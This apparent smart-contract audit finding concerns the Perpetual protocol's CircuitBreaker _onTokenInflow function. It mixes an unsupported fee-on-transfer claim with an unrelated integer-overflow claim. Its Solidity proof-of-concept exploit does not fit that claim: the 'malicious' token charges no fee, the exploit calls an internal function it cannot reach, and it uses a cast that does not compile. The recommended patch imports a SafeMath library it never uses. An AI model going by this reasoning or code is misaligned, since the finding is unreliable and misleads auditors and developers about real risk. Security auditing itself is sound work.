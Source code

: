 Proud Azure Caribou

high

# Incorrect Token Balance Accounting for Fee-on-Transfer ERC20 Tokens

## Summary
The vulnerability arises from the contract's incorrect assumption that the entire '**_amount**' of ERC20 tokens indicated is credited to its balance during a transfer, failing to account for potential transfer fees deducted by certain fee-on-transfer ERC20 tokens. This flawed assumption leads to an internal accounting error as the contract's '**_onTokenInflow**' function records the full '**_amount**' as received, disregarding the actual lesser amount credited post-fee.
## Vulnerability Detail
The root cause of the vulnerability "Incorrect Token Balance Accounting for Fee-on-Transfer ERC20 Tokens" in the provided code is that the function **_onTokenInflow()** on lines 265 to 271 does not correctly account for the transfer fee that may be deducted from the token amount when a transfer occurs.

When a transfer of ERC20 tokens with a fee-on-transfer mechanism takes place, the actual amount received by the recipient may be less than the amount sent due to the deduction of the transfer fee. However, in the code snippet provided, the function **_onTokenInflow()** only records the amount of tokens received without considering the deduction of the transfer fee. This can lead to incorrect accounting of the token balance, as the deducted fee is not taken into account.

The vulnerability in the code lies in line 269 where the function recordChange is called with the parameter int256(_amount). This conversion from **uint256** to **int256** could potentially overflow into a negative value, leading to incorrect token balance accounting for fee-on-transfer ERC20 tokens.

To exploit this vulnerability, an attacker could create a malicious ERC20 token contract that implements a fee-on-transfer mechanism. By transferring a large amount of tokens to the smart contract using the **_onTokenInflow** function, the attacker could potentially cause an overflow in the conversion from **uint256** to **int256**, resulting in a negative value being recorded for the token balance. This could allow the attacker to manipulate the token balance and potentially steal tokens from the smart contract.

Proof of Concept (PoC) code:

```solidity
// Malicious ERC20 token contract
pragma solidity ^0.8.0;

contract MaliciousToken {
    string public name = "MaliciousToken";
    string public symbol = "MT";
    uint8 public decimals = 18;
    uint256 public totalSupply = 1000000 * 10 ** uint256(decimals);
    mapping(address => uint256) balances;

    constructor() {
        balances[msg.sender] = totalSupply;
    }

    function transfer(address to, uint256 amount) public returns (bool) {
        balances[msg.sender] -= amount;
        balances[to] += amount;
        return true;
    }
}

// Smart contract with vulnerability
contract VulnerableContract {
    mapping(address => int256) public tokenBalances;

    function _onTokenInflow(address _token, uint256 _amount) internal {
        int256 convertedAmount = int256(_amount); // Vulnerability here
        tokenBalances[_token] += convertedAmount;
    }

    function getBalance(address _token) public view returns (int256) {
        return tokenBalances[_token];
    }
}

// Exploit the vulnerability
contract Exploit {
    VulnerableContract vulnerableContract = VulnerableContract(0x123...); // Address of the vulnerable contract
    MaliciousToken maliciousToken = new MaliciousToken();

    function exploit() public {
        maliciousToken.transfer(address(vulnerableContract), uint256(-1)); // Transfer a large amount to trigger overflow
        int256 balance = vulnerableContract.getBalance(address(maliciousToken));
        require(balance < 0, "Vulnerability exploited successfully");
    }
}
```
In this PoC, the **MaliciousToken** contract is created with a total supply of tokens. The **VulnerableContract** has the vulnerable **_onTokenInflow** function that can be exploited by the **Exploit** contract. The **exploit** function transfers a large amount of tokens to the vulnerable contract, triggering an overflow and exploiting the vulnerability.

## Impact

## Code Snippet
https://github.com/sherlock-audit/2024-02-perpetual/blob/main/perp-contract-v3/src/circuitBreaker/CircuitBreaker.sol#L265-L271
## Tool used

Manual Review

## Recommendation
The vulnerability in the code lies in the way the token balance accounting is handled. When tokens are transferred, the balance is recorded as an unsigned integer, which could potentially overflow into a negative value if the amount is large enough. This can lead to incorrect balance calculations and potentially cause unexpected behavior in the smart contract.

To fix this issue, the token balance accounting should be updated to handle the possibility of overflow. One way to address this is by using a safe math library to perform arithmetic operations on the token balances. This ensures that any potential overflow or underflow is prevented, and the calculations are done safely.

Here is an example of how the code can be patched to address the vulnerability:

```solidity
pragma solidity ^0.8.0;

library SafeMath {
    function add(uint256 a, uint256 b) internal pure returns (uint256) {
        uint256 c = a + b;
        require(c >= a, "SafeMath: addition overflow");
        return c;
    }

    function sub(uint256 a, uint256 b) internal pure returns (uint256) {
        require(b <= a, "SafeMath: subtraction overflow");
        uint256 c = a - b;
        return c;
    }
}

contract YourContract {
    using SafeMath for uint256;

    function _onTokenInflow(address _token, uint256 _amount) internal {
        Limiter storage limiter = tokenLimiters[_token];

        limiter.recordChange(int256(_amount), WITHDRAWAL_PERIOD, TICK_LENGTH);
        emit AssetInflow(_token, _amount);
    }
}
```
By incorporating the **SafeMath** library and using safe arithmetic operations, the vulnerability related to incorrect token balance accounting for fee-on-transfer ERC20 tokens can be mitigated.